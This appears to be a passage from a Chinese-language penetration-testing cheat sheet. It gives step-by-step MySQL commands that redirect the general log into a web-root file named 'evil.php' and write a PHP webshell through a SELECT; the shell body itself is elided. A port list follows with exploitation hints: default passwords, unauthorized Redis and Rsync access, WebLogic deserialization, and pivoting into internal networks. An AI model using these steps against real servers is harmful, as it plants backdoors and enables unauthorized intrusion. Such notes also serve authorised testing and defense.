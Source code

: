 1. ```mysql
   show variables like '%general%';
   # 查看配置
   ```

2. ```mysql
   set global general_log = on;                   
   # 开启general log模式
   ```

3. ```mysql
   set global general_log_file = 'E:/study/WWW/evil.php';   
   # 设置日志目录为shell地址
   ```

4. ```mysql
   select '<?php xxxxx;?>'
   # 写入shell
   ```

5. ```mysql
   set global general_log=off;                     
   # 关闭general log模式
   ```





## 端口详情

> 21 ftp
> 22 SSH
> 23 Telnet
> 80 web
> 80-89 web
> 161 SNMP
> 389 LDAP
> 443 SSL心脏滴血以及一些web漏洞测试
> 445 SMB
> 512,513,514 Rexec
> 873 Rsync未授权
> 1025,111 NFS
> 1433 MSSQL
> 1521 Oracle:(iSqlPlus Port:5560,7778)
> 2082/2083 cpanel主机管理系统登陆 （国外用较多）
> 2222 DA虚拟主机管理系统登陆 （国外用较多）
> 2601,2604 zebra路由，默认密码zebra
> 3128 squid代理默认端口，如果没设置口令很可能就直接漫游内网了
> 3306 MySQL
> 3312/3311 kangle主机管理系统登陆
> 3389 远程桌面
> 4440 rundeck 参考WooYun: 借用新浪某服务成功漫游新浪内网
> 5432 PostgreSQL
> 5900 vnc
> 5984 CouchDB http://xxx:5984/_utils/
> 6082 varnish 参考WooYun: Varnish HTTP accelerator CLI 未授权访问易导致网站被直接篡改或者作为代理进入内网
> 6379 redis未授权
> 7001,7002 WebLogic默认弱口令，反序列
> 7778 Kloxo主机控制面板登录
> 8000-9090 都是一些常见的web端口，有些运维喜欢把管理后台开在这些非80的端口上
   ```